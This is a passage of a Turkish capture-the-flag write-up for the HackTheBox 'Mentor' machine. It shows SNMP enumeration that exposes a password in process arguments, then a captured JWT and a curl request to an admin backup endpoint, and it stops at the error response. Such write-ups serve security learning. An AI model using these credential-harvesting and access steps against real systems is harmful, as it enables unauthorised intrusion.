 `snmpwalk` aracını kullanarak sistem hakkında bilgi toplamaya başlayabiliriz.

Fazla trafik oluşturmak istemediğim için sadece `hrSWRunName (OID .1.3.6.1.2.1.25.4.2)` istemek benim için yeterli olacaktır.

Çalışan process’ler görüntülenir.

```bash
root@acivik:~/Mentor# snmpwalk -v 2c -c internal 10.129.86.80 hrSWRunName | tee snmpout.txt
...
HOST-RESOURCES-MIB::hrSWRunName.1997 = STRING: "python"
HOST-RESOURCES-MIB::hrSWRunName.2019 = STRING: "python3"
HOST-RESOURCES-MIB::hrSWRunName.2020 = STRING: "python3"
HOST-RESOURCES-MIB::hrSWRunName.2064 = STRING: "postgres"
HOST-RESOURCES-MIB::hrSWRunName.2065 = STRING: "postgres"
HOST-RESOURCES-MIB::hrSWRunName.2083 = STRING: "login.py"
...
```

`login.py` çalıştırılıyor. Şimdi `hrSWRunTable` kullanarak `2083` idsini grepleyeceğim.

```bash
root@acivik:~/Mentor# snmpwalk -v 2c -c internal 10.129.86.80 hrSWRunTable | grep 2083
HOST-RESOURCES-MIB::hrSWRunIndex.2083 = INTEGER: 2083
HOST-RESOURCES-MIB::hrSWRunName.2083 = STRING: "login.py"
HOST-RESOURCES-MIB::hrSWRunID.2083 = OID: SNMPv2-SMI::zeroDotZero
HOST-RESOURCES-MIB::hrSWRunPath.2083 = STRING: "/usr/bin/python3"
HOST-RESOURCES-MIB::hrSWRunParameters.2083 = STRING: "/usr/local/bin/login.py kj23sadkj123as0-d213"
HOST-RESOURCES-MIB::hrSWRunParameters.120830 = ""
HOST-RESOURCES-MIB::hrSWRunType.2083 = INTEGER: application(4)
HOST-RESOURCES-MIB::hrSWRunType.120830 = INTEGER: operatingSystem(2)
HOST-RESOURCES-MIB::hrSWRunStatus.2083 = INTEGER: runnable(2)
HOST-RESOURCES-MIB::hrSWRunStatus.120830 = INTEGER: invalid(4)
```

Elde edilen parolayı denediğimizde başarılı oluyoruz ve jwt elde ediyoruz.

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwiZW1haWwiOiJqYW1lc0BtZW50b3JxdW90ZXMuaHRiIn0.peGpmshcF666bimHkYIBKQN7hj5m785uKcjwbD--Na0
```

# <span style="color:#AA0E1C"><b># Foothold - Shell from Docker</b>

```bash
root@acivik:~/Mentor# curl -i -s -k -X 'POST' -H 'Authorization:eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwiZW1haWwiOiJqYW1lc0BtZW50b3JxdW90ZXMuaHRiIn0.peGpmshcF666bimHkYIBKQN7hj5m785uKcjwbD--Na0' 'http://api.mentorquotes.htb/admin/backup'
HTTP/1.1 422 Unprocessable Entity
Date: Tue, 13 Dec 2022 15:51:16 GMT
Server: uvicorn
content-length: 81
content-type: application/json

{"detail":[{"loc":["body"],"msg":"field required","type":"value_error.missing"}]}
```
